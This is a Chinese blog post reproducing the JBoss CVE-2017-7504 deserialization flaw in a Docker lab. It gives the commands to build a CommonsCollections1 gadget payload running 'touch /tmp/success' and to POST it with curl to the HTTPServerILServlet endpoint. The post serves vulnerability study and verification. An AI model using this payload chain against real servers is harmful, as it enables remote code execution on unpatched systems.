


# jboss 反序列化漏洞复现(CVE-2017-7504) - 雨中落叶 - 博客园

> 原文：[`www.cnblogs.com/yuzly/p/11240101.html`](https://www.cnblogs.com/yuzly/p/11240101.html)

jboss 反序列化漏洞复现(CVE-2017-7504)

**一、漏洞描述**

Jboss AS 4.x 及之前版本中,JbossMQ 实现过程的 JMS over HTTP Invocation Layer 的 HTTPServerILServlet.java 文件存在反序列化漏洞,远程攻击者可借助特制的序列化数据利用该漏洞执行任意代码。

**二、漏洞环境搭建以及复现**

1、使用 docker 搭建漏洞环境及复现

Docker-compose build

docker-compose up -d

2、浏览器访问 http://172.17.0.1:8080/,测试环境是否搭建成功

　　

3、下载测试工具, 下载地址:https://github.com/joaomatosf/JavaDeserH2HC

我们选择一个 Gadget：ExampleCommonsCollections1WithHashMap,编译并生成序列化数据:

javac -cp .:commons-collections-3.2.1.jar ExampleCommonsCollections1WithHashMap.java

java -cp .:commons-collections-3.2.1.jar ExampleCommonsCollections1WithHashMap "touch /tmp/success"

可见,我们执行的命令是 touch /tmp/success。执行完成后,将生成一个文件 ExampleCommonsCollections1WithHashMap.ser

　　

4、将该文件作为 body 发送如下数据包:

curl http://172.17.0.1:8080/jbossmq-httpil/HTTPServerILServlet  --data-binary @ExampleCommonsCollections1WithHashMap.ser

　　

5、验证是否成功,在 docker 环境中执行 docker-compose exec jboss bash,下图可以看到成功创建了 success 文件,说明漏洞存在

　　

-------------------------------------------------------------------------------------------------

参考: https://github.com/vulhub/vulhub/tree/master/jboss/CVE-2017-7504